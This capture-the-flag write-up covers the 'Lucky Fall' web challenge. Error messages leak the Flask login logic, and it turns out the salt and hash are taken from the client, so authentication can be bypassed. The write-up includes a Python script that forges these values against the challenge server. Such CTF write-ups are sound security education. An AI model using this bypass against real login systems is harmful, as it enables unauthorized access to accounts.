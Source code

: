 # web

## Lucky Fall
> Solved By : thewhiteh4t

- we have a simple login page
- JSON body is sent to the server which contains username and password
- Unusual thing here is that the error is shown in a javascript alert

![](https://i.imgur.com/gDkpo4r.png)

- the page source looked normal so I proceeded to intercept the login request with burpsuite
- if we remove the `name` key value pair from JSON body we can see the following error :

![](https://i.imgur.com/bcDVpIS.png)

- this error reveals few things to us :
    - python flask backend is used
    - the exceptions are showed in the alert pop up
    - `name` key value pair are required

- after this I tried to remove the `password` key : 

![](https://i.imgur.com/SZeBtyH.png)

- here we can see an `if` condition which looks like the logic behind the login function
- It is calculating the SHA256 hash of concatenation of `password` and `salt`
- then it compares it with a `hash` value
- but if we take a look carefully we can see that the values of `salt` and `hash` are being taken from the JSON request body
- so we can set our own `salt` and `hash` just like `username` and `password`
- I wrote a small python script to get the flag
- here `username`, `password` and `salt` can be any values, we just need to satisfy the if condition to get the flag

```python
#!/usr/bin/env python3

import requests
import hashlib

url = 'http://lucky-fall.challs.m0lecon.it/'
uname = 'admin'
passw = 'password'
salt = 'salt'
Hash = hashlib.sha256((passw + salt).encode('UTF-8')).hexdigest()

json_body = {
    'name': uname,
    'password': passw,
    'salt': salt,
    'hash': Hash
}

r = requests.post(url + 'login', json=json_body)
print(r.text)
```
